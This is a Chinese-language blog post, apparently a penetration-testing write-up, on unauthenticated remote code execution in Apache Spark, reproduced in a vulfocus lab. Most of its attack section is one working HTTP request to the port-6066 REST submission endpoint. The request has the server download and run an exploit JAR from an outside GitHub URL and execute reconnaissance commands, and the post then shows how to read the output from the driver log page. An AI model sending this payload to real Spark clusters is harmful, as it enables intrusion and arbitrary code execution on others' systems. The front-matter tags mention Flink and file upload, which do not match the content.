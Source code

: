 ```yaml
---
title: Spark未授权访问RCE
layout: post
post-image: /assets/images/spark.jpg
description: Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。
tags:
- 内网渗透
- Apache Flink
- 文件上传
---
```



# Spark未授权访问RCE

​                                                                                                                       ——花无名    

## 1.Apache Spark 

Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。是一种与 Hadoop 相似的开源集群计算环境，但是两者之间还存在一些不同之处，这些有用的不同之处使 Spark 在某些工作负载方面表现得更加优越，换句话说，Spark 启用了内存分布数据集，除了能够提供交互式查询外，它还可以优化迭代工作负载。

## 2.漏洞介绍

系统未做身份验证，导致任意用户访问系统地址即可进入系统管理界面，并通过构造数据包，调用系统API接口，提交REST格式的API恶意代码，从而导致系统可被执行任意代码并getshell

## 3.漏洞复现

A：直接访问目标的8080端口即可进入系统管理界面，查看当前版本号为2.3.1（注：这里使用的靶场环境为vulfocus，故端口映射与系统原本默认端口不一致）

![image-20211106110800090](/assets/images/20211106/image-20211106110800090.png)

B：构造数据包：使用目标6066端口/v1/submissions/create构造数据包，提交REST格式的API恶意代码，并获取submissionId，其中appArgs参数值为需要执行的命令

`POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680
 
{
 "action": "CreateSubmissionRequest",
 "clientSparkVersion": "2.3.1",
 "appArgs": [
  "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
 ],
 "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
 "environmentVariables": {
  "SPARK_ENV_LOADED": "1"
 },
 "mainClass": "Exploit",
 "sparkProperties": {
  "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "spark.driver.supervise": "false",
  "spark.app.name": "Exploit",
  "spark.eventLog.enabled": "true",
  "spark.submit.deployMode": "cluster",
  "spark.master": "spark://your-ip:6066"
 }
}`

![image-20211106111209048](/assets/images/20211106/image-20211106111209048.png)

C：成功获取submissionid后，访问 http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout 即可查看执行结果

![image-20211106111440687](/assets/images/20211106/image-20211106111440687.png)